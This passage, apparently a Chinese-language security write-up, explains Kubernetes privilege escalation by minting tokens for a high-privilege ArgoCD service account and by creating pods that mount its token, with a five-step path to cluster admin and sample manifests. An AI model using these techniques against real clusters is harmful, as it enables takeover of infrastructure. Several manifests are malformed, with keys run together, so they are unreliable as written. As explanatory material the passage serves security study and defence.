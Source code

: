 ```bash
apiVersion: v1
kind: Secret
metadata:
 name: research-argo-token
 annotations:k8s.io/service-account.name: "argocd-application-controller"
 type: k8s.io/service-account-token
```

假设攻击者在枚举阶段获得的所有 token 都可以用来 create 和 list "服务帐户"(service accounts)。在这种情况下，攻击者可以为所有的"服务帐户"(service accounts) 创建出额外的 secrets，并利用它们进行身份验证，从而有效地赋予它们任何的"服务帐户"的“权限”（这就是为它们创建出 secrets 的原因）。

给这个名为`argocd-application-controller`的服务帐户创建出的那个 secret，为该服务账户提供了“集群管理”(cluster-admin) 的权限。

### k8s Pod

k8s 有很多方法能创建出 1 个 pod。各种 pod 创建方法被称为“工作负载资源”( Workload Resources)。这些“工作负载资源”( Workload Resources) 包括 Pods、Deployments、ReplicaSets、DaemonSets、Jobs、CronJobs 和 ReplicationControllers。

如果 "服务帐户令牌"(Service Account Tokens) 有权限去创建多个“工作负载资源”( Workload Resources) 中的任何一个资源，这就是攻击者可以尝试权限提升的另一种方式。

当攻击者创建 1 个 pod 时，他们可以向其中添加 privileged flag，从 pod 中删除所有“安全保护措施”，并让攻击者有权访问 host 的文件系统。攻击者还可以指定他们想用的那一个"服务账户"，让 pod 执行各种命令，例如反弹 shell，或者为 pod 指定一个恶意映像。

从 k8s Pod 开始，拿下集群管理的步骤如下

```bash
1.攻击者获得可以创建 pod 的 sa（如果 pod 可以在 kube-system 命名空间里创建就更好了）

2.使用指定的高权限"服务账户"创建 Pod

3.有执行权的攻击者进入 pod 抓取令牌，或让 pod 运行其他命令

4.攻击者使用新 token 进行身份验证

5.集群管理
```

创建具有以下配置的 pod 会提供集群管理员，因为它使用 argocd-application-controller"服务账户"并挂载其令牌。

Pod. yaml 配置，使用了高权限的"服务账户"：

```bash
apiVersion: v1 kind: Pod metadata:
creationTimestamp: null
labels:
run: research-pod
name: research-pod
spec:
serviceAccountName: argocd-application-controller automountServiceAccountToken: true
containers:
- image: nginx
name: research-pod
resources: {}
dnsPolicy: ClusterFirst
restartPolicy: Always
status: {}
```
